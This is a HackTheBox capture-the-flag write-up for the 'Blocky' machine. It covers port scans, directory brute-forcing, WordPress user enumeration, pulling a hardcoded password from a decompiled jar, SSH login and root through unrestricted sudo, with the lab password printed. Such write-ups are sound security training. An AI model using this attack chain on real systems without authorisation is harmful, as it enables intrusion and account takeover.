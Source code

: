 ```yaml
---
layout: post
title:  "HackTheBox -  Blocky"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```

Blocky was another standard box with a few potential rabbit holes to fall down. There was also a 2nd potential method of gaining information through phpmyadmin which i didnt investigate.
# Nmap scan
```console
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
```


Full port scan
```
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
8192/tcp  closed sophos
25565/tcp open   minecraft
```

# Web server directory bruteforce
```
[06:51:41] 200 -   51KB - /
[06:52:26] 301 -  309B  - /wiki  ->  http://10.10.10.37/wiki/
[06:52:39] 301 -  315B  - /wp-content  ->  http://10.10.10.37/wp-content/
[06:53:51] 301 -  312B  - /plugins  ->  http://10.10.10.37/plugins/
[06:54:59] 301 -  316B  - /wp-includes  ->  http://10.10.10.37/wp-includes/
[06:56:13] 301 -  315B  - /javascript  ->  http://10.10.10.37/javascript/
```
Directories mention 'wp-content' and 'wp-includes' which are wordpress directories so theres a solid chance we will be interacting with wordpress.

# User enumeration
Since we know wordpress is running, we can enumerate the site with wpscan. Wpscan manages to pull the username 'notch' from the rss feed.

# Initial shell
Going back to recon through the 'plugins' directory we get access to a 'cute file browser' with 2 files:
```
- Blockycore.jar
- griefprevention.jar
```
We can use online decompilers to decompile the java into somewhat readable code.
From the blockycore file we get credentials that are hardcoded.
{% highlight java %}
public class BlockyCore {
public String sqlHost = "localhost";
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
{% endhighlight %}

Logging in to ssh with user 'notch' and that password gives us our foothold and user flag.

# Privilege escalation
A sudo check reveals instantly what our method of gaining root privs will be.
```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: <ssh_pw>
Matching Defaults entries for notch on Blocky:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
(ALL : ALL) ALL
```
'sudo su' gives us root.
